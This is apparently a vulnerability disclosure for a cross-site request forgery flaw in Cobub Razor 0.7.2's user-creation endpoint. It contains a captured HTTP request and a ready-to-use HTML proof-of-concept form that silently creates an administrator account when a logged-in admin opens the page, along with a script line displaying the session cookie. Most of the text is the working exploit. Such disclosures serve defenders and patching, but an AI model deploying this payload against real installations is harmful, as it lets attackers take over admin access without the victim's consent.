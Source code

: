 ﻿Vendor Homepage  :  http://www.cobub.com/  
 
Software Link    :  https://github.com/cobub/razor/releases  

Version          :  0.7.2  

##  CVE description  ##
A cross-site request forgery (CSRF) vulnerability exists in Western Bridge Cobub Razor 0.7.2   
via /index.php?/user/createNewUser/, resulting in account creation.

##  Technical details  ##
In /index.php?/user/createNewUser/ POST:username=&email=&password=&confirm_password=&userrole=&user%2FccreateNewUser=.  

Because the Cobub Razor is lack of identity authentication ,When attacker induce authenticated admin user to a malicious web page, the account will be created without admin user's intention.

##  Proof of Concept  ##
1. Login to console page.(/index.php?/auth/login -> /index.php?/)
2. Keep login and access the html it has following content  
3. Userrole is 3, which means that the user is admin.  

request:  
```
POST /index.php?/user/createNewUser/ HTTP/1.1
Accept: text/html, application/xhtml+xml, image/jxr, */*
Referer: http://localhost
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; Trident/7.0; MANMJS; rv:11.0) like Gecko
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Content-Length: 122
Host: localhost:80
Pragma: no-cache
Cookie: ci_session2=a%3A4%3A%7Bs%3A10%3A%22session_id%22%3Bs%3A32%3A%22c234df4ea2a0b843401dd9465f1c7c49%22%3Bs%3A10%3A%22ip_address%22%3Bs%3A7%3A%220.0.0.0%22%3Bs%3A10%3A%22user_agent%22%3Bs%3A77%3A%22Mozilla%2F5.0+%28Windows+NT+10.0%3B+WOW64%3B+Trident%2F7.0%3B+MANMJS%3B+rv%3A11.0%29+like+Gecko%22%3Bs%3A13%3A%22last_activity%22%3Bi%3A1520384883%3B%7D12178fe8e9554e0e6aa6007fb4476dfc
Connection: close

username=test123&email=test@test123.test&password=test&confirm_password=test&userrole=3&user%2FccreateNewUser=%E5%88%9B%E5%BB%BA  
```  

PoC payload:  

```<html>
  <body>
  <script>alert(document.cookie)</script>
    <form action="http://localhost/index.php?/user/createNewUser/" method="POST">
      <input type="hidden" name="username" value="test123" />
      <input type="hidden" name="email" value="test&#64;test123&#46;test" />
      <input type="hidden" name="password" value="test" />
      <input type="hidden" name="confirm&#95;password" value="test" />
      <input type="hidden" name="userrole" value="3" />
      <input type="hidden" name="user&#47;ccreateNewUser" value="�&#136;&#155;�&#187;�" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
